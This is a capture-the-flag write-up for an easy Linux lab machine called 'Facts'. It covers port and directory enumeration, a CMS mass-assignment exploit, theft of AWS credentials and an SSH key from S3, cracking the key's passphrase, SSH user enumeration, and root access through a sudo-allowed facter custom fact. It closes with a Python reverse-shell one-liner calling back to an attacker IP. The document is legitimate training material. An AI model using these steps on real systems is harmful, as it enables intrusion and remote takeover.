









# Facts

- Difficulty: Easy
- OS: Linux
--- 
## Tools

- Nmap
- python
- ssh
- AWS
- BurpSuite
- John
- ssh2john 
- Cewl
---
## Attack Path

1. Enumerate open ports
2. Enumerate subdirectories
3. Create a valid user
4. Exploitation
5. Access AWS s3
6. Cracking SSH key
7. Enumerate SSH users
8. Privilege Escalation via facter
---
## Enumeration

### Nmap

The first step is to identify open ports on the target server in order to discover potential attack vectors.

```bash
nmap -sS -p- facts.htb

Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
54321/tcp open  unknown
```

After identifying the open ports, I performed service enumeration to identify technologies and possible attack surfaces.

## ffuf

Browsing the web application reveals a standard CMS-style website containing a few public posts.



I fuzzed the web application to gather more information.

```bash 
➜  ~ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://facts.htb/FUZZ  -c -v -ic
```



This revealed an interesting endpoint: /admin/login.
Since the application exposed an authentication panel, the next step was to attempt user registration and further application enumeration.

## OSINT

To gather more information about the CMS, I created a valid account and authenticated to the application dashboard.



Searching the web I found a CVE for this specific version

[CVE-2025-2304](https://www.tenable.com/cve/CVE-2025-2304)

---
## Exploitation

The vulnerability is caused by improper input validation and mass assignment.
The backend accepts arbitrary parameters submitted by the user, allowing privilege-related attributes such as role to be modified during the password change request.



After modifying the request, I gained administrative privileges and obtained access to advanced CMS configuration options.



---
## Acess AWS S3

The administrator settings page exposed AWS credentials used by the application for S3-compatible storage operations.



Using the exposed credentials and the custom endpoint, I enumerated the available S3-compatible buckets.

```bash 
➜  ~ aws s3 --endpoint-url=http://facts.htb:54321  ls
2025-09-11 06:06:52 internal
2025-09-11 06:06:52 randomfacts
```
Inside the `internal` bucket, I discovered SSH-related files, including a private key.

```bash 
➜  ~ aws s3 --endpoint-url=http://facts.htb:54321 ls internal/.ssh/
2026-05-18 19:32:38         82 authorized_keys
2026-05-18 19:32:38        464 id_ed25519
```

## Cracking SSH Key 

Since the private key was protected with a passphrase, the next step was to crack it using John the Ripper.

```bash 
➜  Facts ssh2john id_ed25519 > hash
➜  Facts john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

The ssh2john utility was used to convert the encrypted SSH private key into a hash format compatible with John the Ripper.



## Enumerate SSH users

Even with a valid SSH key and passphrase, authentication still requires a valid username.
To identify existing users on the target system, I generated a context-aware wordlist using CeWL and created a custom enumeration script to test SSH authentication attempts.
On the other hand for create useful wordlist I use 

```bash 
➜  Facts cewl http://facts.htb -d 2 -m 5 -w ssh_users.list
```

After generating the wordlist, I executed the enumeration script to identify a valid SSH user.

```bash 
(venv) ➜  Facts ./ssh-enumerate.py -f ssh_users.list --host facts.htb --key id_ed25519 --passphrase dragonballz 
```



---
## Privilege Escalation

After identifying the valid user, I authenticated via SSH using the recovered private key and passphrase.
```bash 
ssh -i id_ed25519 trivia@facts.htb
```

Once authenticated, I performed local enumeration to identify privilege escalation vectors.

Checking the user's sudo permissions revealed the following:

```bash 
trivia@facts:~$ sudo -l
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter

```

Inspecting the `facter` documentation and available command-line options revealed support for loading custom facts from external directories.



[Facter](https://help.puppet.com/core/current/Content/PuppetCore/Markdown/cli.htm) is a library written in ruby used to gather system information such as memory statistics, network interfaces, mounted disks, etc.

Because `facter` allows us to load [custom facts](https://help.puppet.com/core/current/Content/PuppetCore/custom_facts.htm) in external directories I created a custom fact that executes a shell command.

``` ruby
Facter.add('custom_fact') do
  setcode do
    Facter::Core::Execution.execute('id')
  end
end
```

And we execute the fact using the next command 

```bash 
trivia@facts:~$ sudo facter --custom-dir=../trivia custom_fact
uid=0(root) gid=0(root) groups=0(root)
```

After confirming code execution as root, I modified the payload to establish a reverse shell back to my attacker machine.

```python 
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("IP",9090));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```


and opened a listener on my attacker machine.

```bash 
➜  Facts nc -lknvp 9090
```


